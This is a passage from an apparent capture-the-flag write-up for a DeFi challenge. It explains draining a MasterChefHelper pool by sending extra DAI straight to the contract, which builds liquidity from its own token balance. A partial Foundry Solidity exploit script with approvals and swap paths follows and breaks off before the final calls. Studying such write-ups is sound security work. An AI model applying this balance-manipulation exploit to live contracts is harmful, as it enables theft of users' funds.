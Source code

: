If we just call the `swapTokenForPoolToken()` with some USDC it will just create a “normal” LP with USDC/2 ⇒ token0 & USDC/2 ⇒ token1.  And you cannot withdraw the 10 weth. 

But the trick here is to send more DAI to `MasterChefHelper` directly. 

So as we said last time `MasterChefHelper` will use `ERC20Like(token0).balanceOf(address(this))` and create a pool with the total value and sending back to you 😉

Then the pool will be empty just has to flag the chall! 

![Untitled](Untitled%202.png)

Payload using Foundry:

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

//import 'forge-std/Script.sol';

import 'src/Setup.sol';

//import 'forge-std/Test.sol';

contract ContractScript {
  function setUp() public {}

  function run() public payable {
    Setup s = Setup(0x8ceB77a963474dbA300421fc8E8F91831C776dC3);

    MasterChefHelper M = s.mcHelper();

    MasterChefLike ML = M.masterchef();

    WETH9 wet = s.weth();
    uint256 max = type(uint256).max;

    //echo "1\nd85d44b338644cda1cbad7a66918f61ca5356c9f589be69b2a62eb\n" | nc 34.123.187.206 31337
    //vm.deal(address(this), 5000 ether);
    //vm.addr(0xb746dd73a823761682724bcf5f06360680943e14a2e2a212c111c2a0dd469090);

    wet.deposit{value: 1000 ether}();
    address dai = 0x6B175474E89094C44Da98b954EedeAC495271d0F;
    address usdc = 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48;
    address[] memory path = new address[](2);
    path[0] = address(wet);
    path[1] = address(dai);

    address[] memory path2 = new address[](2);
    path2[0] = address(wet);
    path2[1] = address(usdc);

    wet.approve(address(M.router()), 10000 ether); //Approve router
    //wet.approve(0xC3D03e4F041Fd4cD388c549Ee2A29a9E5075882f, 10000 ether); //approve pool
    ERC20Like(dai).approve(address(M), 100000000000 ether);
    ERC20Like(usdc).approve(address(M), 100000000000 ether);

```